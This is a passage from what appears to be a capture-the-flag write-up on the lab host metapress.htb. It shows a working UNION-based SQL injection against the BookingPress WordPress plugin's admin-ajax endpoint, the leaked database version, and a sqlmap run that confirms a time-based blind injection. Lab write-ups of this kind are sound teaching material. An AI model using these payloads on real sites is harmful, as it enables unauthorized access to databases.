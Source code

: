 ```
Expires: Wed, 11 Jan 1984 05:00:00 GMT                                                                                                                                                                                                      
Cache-Control: no-cache, must-revalidate, max-age=0                                                                                                                                                                                         
X-Frame-Options: SAMEORIGIN                                                                                                                                                                                                                 
Referrer-Policy: strict-origin-when-cross-origin                                                                                                                                                                                            
                                                                                                                                                                                                                                            
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_ser
vice_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/booking
press-appointment-booking\/images\/placeholder-img.jpg"}]
```

Pretty hard to understand to be honest, so I'll push it into burp to make it easier to digest.&#x20;

```
┌──(kali㉿kali)-[~]                                        
└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=0aee0f5c43&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' -x 127.0.0.1:8080
```

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Save the request to a file and run sqlmap through it!(To do that, I need to replace `total_service=-7502` to `total_service=1`.&#x20;

```
┌──(kali㉿kali)-[~]
└─$ cat admin.req
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
User-Agent: curl/7.87.0
Accept: */*
Content-Length: 185
Content-Type: application/x-www-form-urlencoded
Connection: close

action=bookingpress_front_get_category_services&_wpnonce=0aee0f5c43&category_id=33&total_service=1

┌──(kali㉿kali)-[~]
└─$ sqlmap -r admin.req -p total_service --dbs
...
sqlmap identified the following injection point(s) with a total of 68 HTTP(s) requests:
---                                                        
Parameter: total_service (POST)                            
    Type: time-based blind                                 
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```